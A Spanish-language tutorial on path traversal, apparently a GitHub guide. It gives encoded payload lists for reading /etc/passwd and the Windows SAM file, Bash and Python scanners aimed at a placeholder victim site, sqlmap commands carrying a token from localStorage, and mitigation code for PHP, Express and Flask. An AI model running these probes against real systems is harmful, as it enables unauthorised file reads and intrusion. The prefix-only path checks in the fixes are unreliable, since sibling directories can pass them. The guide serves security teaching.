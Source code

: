 # Guía de Path Traversal y Seguridad Web

## Índice

1. [Introducción](#introducción)
2. [¿Qué es Path Traversal?](#qué-es-path-traversal)
3. [Vectores de Ataque](#vectores-de-ataque)
4. [Ejemplos de Explotación](#ejemplos-de-explotación)

   * Script Bash
   * Scanner en Python
5. [Prevención y Mitigación](#prevención-y-mitigación)

   * PHP
   * Node.js (Express)
   * Python (Flask)
6. [Técnicas Avanzadas y Payloads Extra](#técnicas-avanzadas-y-payloads-extra)
7. [Uso de sqlmap con localStorage/sessionStorage](#uso-de-sqlmap)
8. [Orden de Cookies (DVWA)](#orden-de-cookies)
9. [Detalles de la Query String](#detalles-de-la-query-string)
10. [Referencias](#referencias)

---

## 1. Introducción

El **path traversal** (o *directory traversal*) es una vulnerabilidad que permite a un atacante leer o incluir archivos fuera del directorio permitido por la aplicación. Está en el OWASP Top 10 como A01:2021 – Broken Access Control.

## 2. ¿Qué es Path Traversal?

Cuando una aplicación construye rutas a archivos usando entradas de usuario sin validarlas ni normalizarlas, un atacante puede inyectar `../` (en UNIX) o `..\` (en Windows) para "subir" en la jerarquía de carpetas.

```http
GET /vulnerable.php?file=../../../../etc/passwd HTTP/1.1
```

Este ataque expone información sensible, como `/etc/passwd`, o permite sobrescribir archivos.

## 3. Vectores de Ataque

* **Slash normal**: `../../etc/passwd`
* **URL-encoded**: `%2e%2e%2f%2e%2e%2fetc/passwd`
* **Barras invertidas (Windows)**: `..\\..\\windows\\system32\\drivers\\etc\\hosts`
* **Null byte**: `../../etc/passwd%00.jpg`
* **Overlong UTF-8**: `%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd`
* **Doble codificación**: `%252e%252e%252f%252e%252e%252fetc/passwd`
* **Separadores mixtos**: `..\/..\/etc/passwd`
* **Rutas absolutas disfrazadas**: `././././etc/passwd`
* **Parameter pollution**: `?file=good.html&file=../../etc/passwd`
* **Zip Slip**: entradas ZIP con `../../evil.sh`

## 4. Ejemplos de Explotación

### Script Bash

```bash
#!/usr/bin/env bash
TARGET="https://victima.com/descarga.php?file="
PAYLOADS=(
  "../../etc/passwd"
  "%2e%2e%2f%2e%2e%2fetc/passwd"
  "..\\..\\windows\\system32\\win.ini"
  "%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd"
)

for p in "${PAYLOADS[@]}"; do
  url="${TARGET}${p}"
  echo -n "Probando $p → "
  code=$(curl -s -o /dev/null -w "%{http_code}" "$url")
  if [ "$code" -eq 200 ]; then
    echo "¡ÉXITO!"
    curl -s "$url" | head -n 10
    break
  else
    echo "Falló ($code)"
  fi
done
```

### Scanner en Python

```python
import requests

base = "https://victima.com/descarga.php"
param = "file"
for depth in range(1, 11):
    payload = "../" * depth + "etc/passwd"
    r = requests.get(base, params={param: payload})
    if r.status_code == 200 and "root:" in r.text:
        print(f"[+] Vulnerable con {depth} niveles: {r.url}")
        print(r.text.splitlines()[:5])
        break
    else:
        print(f"[-] {depth} niveles → {r.status_code}")
```

## 5. Prevención y Mitigación

### PHP

```php
<?php
function safeInclude($baseDir, $userInput) {
    $file = realpath($baseDir . DIRECTORY_SEPARATOR . $userInput);
    if ($file === false || strpos($file, $baseDir) !== 0) {
        http_response_code(403);
        die('Acceso denegado');
    }
    include $file;
}

safeInclude('/var/www/html/templates', $_GET['tpl']);
?>
```

### Node.js (Express)

```javascript
const express = require('express');
const path = require('path');
const app = express();
const BASE_DIR = path.join(__dirname, 'public');

app.get('/download', (req, res) => {
  const file = req.query.file;
  const filePath = path.normalize(path.join(BASE_DIR, file));
  if (!filePath.startsWith(BASE_DIR)) {
    return res.status(403).send('Access denied');
  }
  res.sendFile(filePath, err => {
    if (err) res.status(404).send('Not found');
  });
});

app.listen(3000);
```

### Python (Flask)

```python
from flask import Flask, abort, send_from_directory
import os

app = Flask(__name__)
BASE_DIR = '/var/www/files'

@app.route('/files/<path:filename>')
def serve_file(filename):
    safe_path = os.path.normpath(os.path.join(BASE_DIR, filename))
    if not safe_path.startswith(os.path.abspath(BASE_DIR)):
        abort(403)
    return send_from_directory(BASE_DIR, filename)

app.run()
```

## 6. Técnicas Avanzadas y Payloads Extra

* Null byte: `../../etc/passwd%00.jpg`
* Doble codificación: `%252e%252e%252f%252e%252e%252fetc/passwd`
* Unicode dotless: usar `U+FF0E` en lugar de `.`
* UNC paths en Windows: `\\127.0.0.1\c$\windows\system32\config\SAM`
* Bypass de check de extensión: `../../passwd.ny` o `../../passwd%2e`

## 7. Uso de sqlmap

* Extrae valor: `token = localStorage.getItem('authToken')`
* Inyéctalo como cookie:

  ```bash
  sqlmap -u "https://victima.com/vuln.php?id=1" --cookie="authToken=$token" -p id
  ```
* O como header:

  ```bash
  sqlmap -u "https://victima.com/vuln.php?id=1" --headers="Authorization: Bearer $token" -p id
  ```
* O en URL GET/POST: `?sess=$sessionValue`

## 8. Orden de Cookies

En DVWA:

```http
Cookie: PHPSESSID=abcd1234; security=low
```

Primero `PHPSESSID`, luego `security=low`.

## 9. Detalles de la Query String

```http
/vulnerabilities/sqli/?id=1&Submit=Submit#
```

* `?id=1`: parámetro de inyección
* `&Submit=Submit`: simula botón de envío
* `#`: fragmento de página (no enviado al servidor)

## 10. Referencias

* OWASP Top Ten: [https://owasp.org/www-project-top-ten/](https://owasp.org/www-project-top-ten/)
* Wikipedia: [https://es.wikipedia.org/wiki/Path\_traversal](https://es.wikipedia.org/wiki/Path_traversal)
* sqlmap: [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)
* Snyk Security: [https://security.snyk.io/](https://security.snyk.io/)
